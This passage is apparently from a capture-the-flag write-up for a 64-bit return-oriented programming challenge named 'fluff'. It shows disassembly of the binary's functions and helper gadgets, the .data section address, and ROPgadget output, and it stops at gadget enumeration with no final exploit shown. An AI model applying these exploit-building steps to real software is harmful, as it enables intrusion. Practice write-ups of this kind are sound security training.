 ## 64-bit ##

Alright, same as before, let's get our necessary addresses:

```
0000000000400510 <print_file@plt>:
  400510:       ff 25 0a 0b 20 00       jmp    QWORD PTR [rip+0x200b0a]        # 601020 <print
_file>
  400516:       68 01 00 00 00          push   0x1
  40051b:       e9 d0 ff ff ff          jmp    4004f0 <.plt>
```
And, of course, ```.data```'s address:
```
voidwalker@Abyss:[fluffx64]** readelf -S fluff | grep data
  [15] .rodata           PROGBITS         00000000004006c0  000006c0
  [23] .data             PROGBITS         0000000000601028  00001028
```

```
0000000000400617 <usefulFunction>:
  400617:       55                      push   rbp
  400618:       48 89 e5                mov    rbp,rsp
  40061b:       bf c4 06 40 00          mov    edi,0x4006c4
  400620:       e8 eb fe ff ff          call   400510 <print_file@plt>
  400625:       90                      nop
  400626:       5d                      pop    rbp
  400627:       c3                      ret

0000000000400628 <questionableGadgets>:
  400628:       d7                      xlat   BYTE PTR ds:[rbx]
  400629:       c3                      ret
  40062a:       5a                      pop    rdx
  40062b:       59                      pop    rcx
  40062c:       48 81 c1 f2 3e 00 00    add    rcx,0x3ef2
  400633:       c4 e2 e8 f7 d9          bextr  rbx,rcx,rdx
  400638:       c3                      ret
  400639:       aa                      stos   BYTE PTR es:[rdi],al
  40063a:       c3                      ret
  40063b:       0f 1f 44 00 00          nop    DWORD PTR [rax+rax*1+0x0]
```

Let's get some ```pop```, ```mov``` and ```xor``` gadgets see what we can do, while also keeping in mind the previously hinted ```questionableGadgets````:

```
voidwalker@Abyss:[fluffx64]** ROPgadget --binary fluff | egrep "mov|pop|xor"
0x0000000000400611 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fc : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x00000000004005fd : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x0000000000400586 : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fe : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x0000000000400585 : add byte ptr [rax], r8b ; pop rbp ; ret
0x00000000004005ff : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x00000000004005e7 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400579 : je 0x400588 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004005bb : je 0x4005c8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
0x0000000000400602 : mov ebp, esp ; pop rbp ; jmp 0x400590
0x000000000040057c : mov edi, 0x601038 ; jmp rax
0x0000000000400601 : mov rbp, rsp ; pop rbp ; jmp 0x400590
0x0000000000400625 : nop ; pop rbp ; ret
0x0000000000400583 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x00000000004005c5 : nop dword ptr [rax] ; pop rbp ; ret
```